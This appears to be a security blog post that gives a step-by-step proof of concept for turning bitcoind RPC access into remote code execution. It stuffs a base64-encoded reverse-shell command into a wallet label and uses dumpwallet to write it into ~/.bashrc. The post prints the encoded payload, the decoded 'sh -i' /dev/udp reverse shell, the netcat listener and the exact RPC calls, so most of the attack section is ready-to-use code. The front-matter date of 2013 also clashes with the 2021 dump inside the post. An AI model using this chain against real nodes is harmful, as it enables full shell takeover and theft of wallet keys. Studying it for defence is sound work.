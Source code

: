 ```yaml
---
layout: post
title:  "Pwning Bitcoind RPC To Remote Code Execution"
date:   2013-11-10 10:18:00
categories: Security
---
```


## Summary
We can combine the usage of `getnewaddress` and `dumpwallet` to create a reverse shell connection to an attackers machine, essentially elevating our limited access to `bitcoind` to a full complete shell.

### Nearly arbitrary write access through dumpwallet
We can leverage the `dumpwallet` command to write a file to an absolute path.
This can be leveraged to write files into sensitive locations such as `~/.bashrc`
Other locations such as `~/.bash_profile` or `~/.bash-login` are also interesting,
these have a higher chance of not having a file already but will only trigger when a new ssh login happens.

We can only write non-executable files, but this isn't really a constrained because the interesting locations mentioned above do not require the executable property. The shell will read the contents of the file into a variable and execute it.

Bash is an interesting target because it does not stop execution if a command failed. This is instrumental to skip over the "garbage" lines because we don't actually control the format of the file created by `dumpwallet`.

The label of an address created through `getnewaddress` serves as our entrypoint into our dumpwallet file, we can stuff bash commands in this field.

Labels barely do any filtering for useful characters:
```
"label": "~!@#$%^&*()-_=+[]\\{}|;':\",./<>?",
```

The final layout of the dumpfile looks like this (redacted a bit):
```
# Wallet dump created by Bitcoin v0.20.1
# * Created on 2021-01-05T18:59:14Z
# * Best block at time of backup was 0 (000000000019d6689c085ae165831e934ff763ae46a2a6c172b3f1b60a8ce26f),
#   mined on 2009-01-03T18:15:05Z

# extended private masterkey: REDACTED

L5REoWnddZLx315Bmh2fhHujTMQB5DBFREaia9osDfUaoiMtk6RA 2021-01-05T18:49:04Z reserve=1 # addr=bc1qqq5dsec72dv0g6nyxld0ykxtzau7pwau99dz5v hdkeypath=m/0'/0'/198'
L3p1RYmgarF1Ps6tdmLFon6iGKQMAZhLMH4HoV1eqvPkAF7Eqyxy 2021-01-05T18:49:04Z reserve=1 # addr=bc1q4e4vq855ljth9f3ykqvunr6xnc7aaaav6wpmgl hdkeypath=m/0'/0'/638'
KzHgJs6DSAnxab5tRD7jpDLoNUgtSyxPHbJS1ZW5dhJa5r9xG9Px 2021-01-05T18:49:04Z label=;(base64${IFS}-d${IFS}<<<c2ggLWkgPiYgL2Rldi91ZHAvMTI3LjAuMC4xLzQyNDIgMD4mMQ==)|bash; # addr=bc1q4ely2lu9du0mspersm9yvn2ttruv5z54aesnjv hdkeypath=m/0'/0'/2'
L1cE5swB5R8Bf9A2tN4yQH17fRDTm96YPdhw3YSdbdgDpUb7v8kA 2021-01-05T18:49:04Z reserve=1 # addr=bc1q469p9czc9kr74zelmx00pptfsqkuut9uedk4mj hdkeypath=m/0'/0'/405'

```

## Payload

The final payload that we'll use in this PoC looks like this:
```
;(base64${IFS}-d${IFS}<<<c2ggLWkgPiYgL2Rldi91ZHAvMTI3LjAuMC4xLzQyNDIgMD4mMQ==)|bash;
```

### Stage 1
```
;(base64${IFS}-d${IFS}<<<${BASE64_ENCODED_STAGE_2_PAYLOAD})|bash;
```
The first stage of the payload decodes the stage 2 payload and executes it.
Mostly a convenience feature because labels will encoded the space character ` ` to `%20`.
Luckily we can use `${IFS}` as a substitution, which is the variable that bash uses for whitespace detection.

Our actual payload is base64 encoded, that way we don't need to deal with the space issue in the actual payload.

### Stage 2

Insecure shell to ip address 127.0.0.1 on port 4242
```
$ sh -i >& /dev/udp/127.0.0.1/4242 0>&1
```

Encoding it to base64
```
$ echo "sh -i >& /dev/udp/127.0.0.1/4242 0>&1" | base64
c2ggLWkgPiYgL2Rldi91ZHAvMTI3LjAuMC4xLzQyNDIgMD4mMQo=
```

The attacker will be listening there, we can use the following command to do that:
```
$ nc -u -lvp 4242
```

## Attack

### Extract path of the user

```
getrpcinfo
{
  "active_commands": [
    {
      "method": "getrpcinfo",
      "duration": 20
    }
  ],
  "logpath": "/home/user/.bitcoin/debug.log"
}

```
Default log path can reveal this.
But this may not be as easy when a non default datadirectory is used.

### Create an address with our label as payload
```
getnewaddress ";(base64${IFS}-d${IFS}<<<c2ggLWkgPiYgL2Rldi91ZHAvMTI3LjAuMC4xLzQyNDIgMD4mMQ==)|bash;"
bc1qccznzj3k7y79jwqyttn8e2lhlwlyznrxqa65yk
```

### Dumping the wallet a file
Let's assume that `.bashrc` doesn't exist, for the sake of having an example that is easy to reproduce.
There are a few better locations as mentioned above that will also work quite well.
```
dumpwallet /home/user/.bashrc
{
  "filename": "/home/user/projects/BitcoindPwner/bitcoin-0.20.1/bin/test"
}
```
